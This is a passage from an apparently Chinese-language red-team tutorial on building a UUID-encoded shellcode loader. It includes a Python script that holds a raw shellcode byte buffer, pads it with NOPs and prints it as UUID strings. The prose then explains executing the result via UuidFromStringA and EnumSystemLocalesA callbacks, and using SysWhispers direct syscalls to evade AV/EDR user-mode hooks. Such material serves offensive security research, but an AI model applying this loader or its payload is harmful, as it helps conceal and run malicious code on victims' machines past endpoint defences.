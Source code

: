 ```python
buf += b"\xb8\xf1\x2e\xf8\x29\xfe\x3a\x77\xa1\x7b\xb6\x03\x3b"
buf += b"\x3d\x85\x9e\xa9\xf1\x52\x68\x25\x74\xac\x1a\xd9\xb3"
buf += b"\x2e\xd1\xad\xd9\x3b\x96\x21\x77\x27\xe1\xac\x4d\x9a"
buf += b"\x22\x19\x36\x65\xac\x49\x7d\x3f\x6e\x39\x0f\xbe\xb8"
buf += b"\x29\xfe\x3a\x73\xa1\x7b\xb6\x86\x2c\xfe\x76\x1f\xac"
buf += b"\xf1\x26\xfc\x24\x74\xaa\x16\x63\x7e\xee\xa8\x6c\xa5"
buf += b"\x3b\x0f\xa9\x22\x38\xb9\x37\x34\x22\x16\xb1\x3b\x3c"
buf += b"\xa8\xee\x99\x5a\x16\xba\x85\x86\xb8\x2c\x2c\x20\x1f"
buf += b"\x63\x68\x8f\xb7\x92\x8a\x85\x0a\xa0\xc0\x67\xe0\x6d"
buf += b"\x75\x7a\x57\xe8\x7a\x2e\x6d\xe0\x74\x7b\x57\xe8\x3b"
buf += b"\xdc\xd1\xe6\x1a\xfd\xa8\x3d\xc1\x96\x55\xcf\x23\x3b"
buf += b"\xed\x4e\xef\xdb\x7d\x92\xa0\x32\xd4\x2c\x52\x5a\xe6"
buf += b"\x11\x7f\xfa\xac\x08\x0f\x63\x5b\x2a\x66\x08\x38\x82"
buf += b"\x7a\x3f\xa1\xe4\xaf\x85\x82\x8b\x1b\x0a\x83\x43\x10"
buf += b"\x02\x32\xe8\x7a\x66\xe0\x6d"


if len(buf)% 16 != 0:
    nop =  b"\x90" * (16-(len(buf)%16))
    buf = nop + buf

for i in range(0, len(buf), 16):
    print('"' + str(uuid.UUID(bytes_le=buf[i:i+16])) + '"')

```

產生出來的UUID會是

```diff
"c9314890-8148-dde9-ffff-ff488d05efff"
"bb48ffff-7a75-e857-7a66-e06d48315827"
...
...
```

不能對齊 16 byte 的話前面用 **nop** 填充

## 執行 Shellcode

在 NCC 發表的文章中有範例程式，看到其中使用了兩個 API `UuidFromStringA` + `EnumSystemLocalA` 來實現 shellcode 還原與執行，`UuidFromStringA` 負責把UUID 格式的字串轉為 byte code，再利用 `EnumSystemLocalA` 的 callback 特性來執行 shellcode

### Direct system calls

這邊來結合 [SysWhispers](https://github.com/jthuraisamy/SysWhispers) 製作看看 direct system calls UUID shellcode loader，SysWhispers 是基於 [Cneelis blog 文章](https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/) 直接使用 syscall 可以防止 user mode hook 的 library，後來也釋出了 [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2) 參考 [MDSec Blog](https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/) 中的技術使用不同的方式產生 asm code 減少大小，還可以混淆 function string

先把一些常用的 syscall export 出來，會產生出 `.h` 跟 `.asm` 檔，跟著 project README 設定一下，應該就可以正常編譯了
